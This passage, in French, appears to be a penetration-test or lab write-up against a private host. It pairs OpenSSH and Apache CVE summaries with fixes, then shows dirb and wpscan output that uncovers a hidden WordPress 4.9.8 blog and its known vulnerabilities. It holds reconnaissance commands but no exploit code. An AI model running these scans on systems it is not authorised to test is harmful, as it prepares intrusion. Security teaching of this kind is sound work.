- **CVE-2023-38408** (Score 9.8) - [Détail](https://vulners.com/cve/CVE-2023-38408)
  - **Exploitation :** Peut être exploité via l'injection de commandes malveillantes en abusant de la vulnérabilité.
  - **Solution :** Mettre à jour OpenSSH vers une version plus récente et restreindre les accès SSH.
- **Multiples exploits** avec des scores entre **8.1 et 10.0** - [Voir la liste](https://vulners.com/githubexploit/)

### 🌐 Apache HTTP (2.4.18)

- **CVE-2024-38476, CVE-2024-38474, CVE-2023-25690** (Score 9.8) - [Détail](https://vulners.com/cve/)
  - **Exploitation :** Les attaquants peuvent exécuter du code arbitraire en exploitant ces vulnérabilités.
  - **Solution :** Mettre à jour Apache HTTP Server et configurer correctement les permissions et les accès.
- **Slowloris DoS Attack** (CVE-2007-6750) - [Détail](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750)
  - **Exploitation :** Une attaque Slowloris maintient des connexions ouvertes pour saturer le serveur.
  - **Solution :** Configurer le serveur pour limiter le nombre de connexions et utiliser un pare-feu.
- **Vulnérabilités CSRF** détectées
  - **Exploitation :** Un attaquant peut forcer un utilisateur à exécuter une action non désirée.
  - **Solution :** Implémenter des jetons CSRF et utiliser des en-têtes de sécurité HTTP.

## Découverte des vulnérabilités du serveur web

Suite à la découverte du serveur web Apache, nous essayons d'accéder à la page d'accueil du serveur web.  
Nous découvrons que le serveur web héberge un site web :


On utilise <i>[dirb](https://www.kali.org/tools/dirb/)</i> pour scanner les répertoires du site web :

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.0.75/

---

DIRB v2.22
By The Dark Raver

---

START_TIME: Thu Jan 30 11:52:21 2025
URL_BASE: http://192.168.0.75/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

---

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.75/ ----
==> DIRECTORY: http://192.168.0.75/assets/
==> DIRECTORY: http://192.168.0.75/css/
==> DIRECTORY: http://192.168.0.75/images/

- http://192.168.0.75/index.html (CODE:200|SIZE:46199)
  ==> DIRECTORY: http://192.168.0.75/js/
- http://192.168.0.75/server-status (CODE:403|SIZE:277)

---

END_TIME: Thu Jan 30 11:52:25 2025
DOWNLOADED: 4612 - FOUND: 2

┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.0.75/assets

---

DIRB v2.22
By The Dark Raver

---

START_TIME: Thu Jan 30 11:52:31 2025
URL_BASE: http://192.168.0.75/assets/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

---

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.75/assets/ ----
==> DIRECTORY: http://192.168.0.75/assets/css/
==> DIRECTORY: http://192.168.0.75/assets/fonts/
==> DIRECTORY: http://192.168.0.75/assets/images/
==> DIRECTORY: http://192.168.0.75/assets/js/

---

END_TIME: Thu Jan 30 11:52:36 2025
DOWNLOADED: 4612 - FOUND: 0

┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.0.75/assets/fonts

---

DIRB v2.22
By The Dark Raver

---

START_TIME: Thu Jan 30 11:52:41 2025
URL_BASE: http://192.168.0.75/assets/fonts/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

---

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.75/assets/fonts/ ----
==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/

---- Entering directory: http://192.168.0.75/assets/fonts/blog/ ----

- http://192.168.0.75/assets/fonts/blog/index.php (CODE:301|SIZE:0)
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-content/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-includes/
- http://192.168.0.75/assets/fonts/blog/xmlrpc.php (CODE:405|SIZE:42)


---- Entering directory: http://192.168.0.75/assets/fonts/blog/wp-admin/ ----

- http://192.168.0.75/assets/fonts/blog/wp-admin/admin.php (CODE:302|SIZE:0)
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/css/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/images/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/includes/
- http://192.168.0.75/assets/fonts/blog/wp-admin/index.php (CODE:302|SIZE:0)
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/js/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/maint/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/network/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-admin/user/


---- Entering directory: http://192.168.0.75/assets/fonts/blog/wp-content/ ----

- http://192.168.0.75/assets/fonts/blog/wp-content/index.php (CODE:200|SIZE:0)
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-content/plugins/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-content/themes/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-content/upgrade/
  ==> DIRECTORY: http://192.168.0.75/assets/fonts/blog/wp-content/uploads/

- http://192.168.0.75/assets/fonts/blog/wp-admin/network/admin.php (CODE:302|SIZE:0)
- http://192.168.0.75/assets/fonts/blog/wp-admin/network/index.php (CODE:302|SIZE:0)

- http://192.168.0.75/assets/fonts/blog/wp-admin/user/admin.php (CODE:302|SIZE:0)
- http://192.168.0.75/assets/fonts/blog/wp-admin/user/index.php (CODE:302|SIZE:0)

- http://192.168.0.75/assets/fonts/blog/wp-content/plugins/index.php (CODE:200|SIZE:0)

- http://192.168.0.75/assets/fonts/blog/wp-content/themes/index.php (CODE:200|SIZE:0)

---

END_TIME: Thu Jan 30 11:53:35 2025
DOWNLOADED: 36896 - FOUND: 11
```

On découvre alors que le répertoire `/assets/fonts/blog` contient un site web Wordpress. On utilise alors <i>[wpscan](https://wpscan.com/)</i> pour scanner les vulnérabilités du site web :

```bash
──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.0.75/assets/fonts/blog/ --enumerate ap --plugins-detection mixed --api-token=[REDACTED]
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.0.75/assets/fonts/blog/ [192.168.0.75]
[+] Started: Thu Jan 30 10:50:47 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.0.75/assets/fonts/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.0.75/assets/fonts/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.0.75/assets/fonts/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.0.75/assets/fonts/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.8'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/, Match: 'WordPress 4.9.8'
 |
 | [!] 63 vulnerabilities identified:
 |
 | [!] Title: WordPress <= 5.0 - Authenticated File Delete
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/e3ef8976-11cb-4854-837f-786f43cbdf44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20147
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Authenticated Post Type Bypass
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/999dba5a-82fb-4717-89c3-6ed723cc7e45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20152
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/
 |
 | [!] Title: WordPress <= 5.0 - PHP Object Injection via Meta Data
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/046ff6a0-90b2-4251-98fc-b7fba93f8334
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20148
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/3182002e-d831-4412-a27d-a5e39bb44314
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - Cross-Site Scripting (XSS) that could affect plugins
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/7f7a0795-4dd7-417d-804e-54f12595d1e4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20150
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://github.com/WordPress/WordPress/commit/fb3c6ea0618fcb9a51d4f2c1940e9efcd4a2d460
 |
 | [!] Title: WordPress <= 5.0 - User Activation Screen Search Engine Indexing
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/65f1aec4-6d28-4396-88d7-66702b21c7a2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20151
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |
 | [!] Title: WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/d741f5ae-52ca-417d-a2ca-acdfb7ca5808
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20149
 |      - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
 |      - https://github.com/WordPress/WordPress/commit/246a70bdbfac3bd45ff71c7941deef1bb206b19a
 |
 | [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
 |     Fixed in: 4.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/1a693e57-f99c-4df6-93dd-0cdc92fd0526
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943
 |      - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
 |      - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
 |
 | [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.10
 |     References:
 |      - https://wpscan.com/vulnerability/d150f43f-6030-4191-98b8-20ae05585936
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
 |      - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
 |      - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
 |      - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/
 |
 | [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
 |     Fixed in: 4.9.11
 |     References:
 |      - https://wpscan.com/vulnerability/4494a903-5a73-4cad-8c14-1e7b4da2be61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16222
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
 |      - https://hackerone.com/reports/339483
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/d39a7b84-28b9-4916-a2fc-6192ceb6fa56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/d005b1f8-749d-438a-8818-21fba45c6465
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/7804d8ed-457a-407e-83a7-345d3bbe07b2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/26a26de2-d598-405d-b00c-61f71cfacff6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/715c00e3-5302-44ad-b914-131c162c3f71
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 4.9.13
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 4.9.13
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 4.9.13
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 4.9.13
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 4.9.14
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 4.9.14
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 4.9.14
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 4.9.14
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 4.9.14
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 4.9.17
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 4.9.18
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/
 |
 | [!] Title: WordPress < 5.8.3 - SQL Injection via WP_Query
 |     Fixed in: 4.9.19
 |     References:
 |      - https://wpscan.com/vulnerability/7f768bcf-ed33-4b22-b432-d1e7f95c1317
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21661
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84
 |      - https://hackerone.com/reports/1378209
 |
 | [!] Title: WordPress < 5.8.3 - Author+ Stored XSS via Post Slugs
 |     Fixed in: 4.9.19
 |     References:
 |      - https://wpscan.com/vulnerability/dc6f04c2-7bf2-4a07-92b5-dd197e4d94c8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21662
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-699q-3hj9-889w
 |      - https://hackerone.com/reports/425342
 |      - https://blog.sonarsource.com/wordpress-stored-xss-vulnerability
 |
 | [!] Title: WordPress 4.1-5.8.2 - SQL Injection via WP_Meta_Query
 |     Fixed in: 4.9.19
 |     References:
 |      - https://wpscan.com/vulnerability/24462ac4-7959-4575-97aa-a6dcceeae722
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21664
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jp3p-gw8h-6x86
 |
 | [!] Title: WordPress < 5.8.3 - Super Admin Object Injection in Multisites
 |     Fixed in: 4.9.19
 |     References:
 |      - https://wpscan.com/vulnerability/008c21ab-3d7e-4d97-b6c3-db9d83f390a7
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21663
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jmmq-m8p8-332h
 |      - https://hackerone.com/reports/541469
 |
 | [!] Title: WordPress < 5.9.2 - Prototype Pollution in jQuery
 |     Fixed in: 4.9.20
 |     References:
 |      - https://wpscan.com/vulnerability/1ac912c1-5e29-41ac-8f76-a062de254c09
 |      - https://wordpress.org/news/2022/03/wordpress-5-9-2-security-maintenance-release/
 |
 | [!] Title: WP < 6.0.2 - Reflected Cross-Site Scripting
 |     Fixed in: 4.9.21
 |     References:
 |      - https://wpscan.com/vulnerability/622893b0-c2c4-4ee7-9fa1-4cecef6e36be
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.2 - Authenticated Stored Cross-Site Scripting
 |     Fixed in: 4.9.21
 |     References:
 |      - https://wpscan.com/vulnerability/3b1573d4-06b4-442b-bad5-872753118ee0
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.2 - SQLi via Link API
 |     Fixed in: 4.9.21
 |     References:
 |      - https://wpscan.com/vulnerability/601b0bf9-fed2-4675-aec7-fed3156a022f
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via wp-mail.php
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/713bdc8b-ab7c-46d7-9847-305344a579c4
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/abf236fdaf94455e7bc6e30980cf70401003e283
 |
 | [!] Title: WP < 6.0.3 - Open Redirect via wp_nonce_ays
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/926cd097-b36f-4d26-9c51-0dfab11c301b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/506eee125953deb658307bb3005417cb83f32095
 |
 | [!] Title: WP < 6.0.3 - Email Address Disclosure via wp-mail.php
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/c5675b59-4b1d-4f64-9876-068e05145431
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/5fcdee1b4d72f1150b7b762ef5fb39ab288c8d44
 |
 | [!] Title: WP < 6.0.3 - Reflected XSS via SQLi in Media Library
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/cfd8b50d-16aa-4319-9c2d-b227365c2156
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/8836d4682264e8030067e07f2f953a0f66cb76cc
 |
 | [!] Title: WP < 6.0.3 - CSRF in wp-trackback.php
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/b60a6557-ae78-465c-95bc-a78cf74a6dd0
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/a4f9ca17fae0b7d97ff807a3c234cf219810fae0
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via the Customizer
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/2787684c-aaef-4171-95b4-ee5048c74218
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/2ca28e49fc489a9bb3c9c9c0d8907a033fe056ef
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via Comment Editing
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/02d76d8e-9558-41a5-bdb6-3957dc31563b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/89c8f7919460c31c0f259453b4ffb63fde9fa955
 |
 | [!] Title: WP < 6.0.3 - Content from Multipart Emails Leaked
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/3f707e05-25f0-4566-88ed-d8d0aff3a872
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/3765886b4903b319764490d4ad5905bc5c310ef8
 |
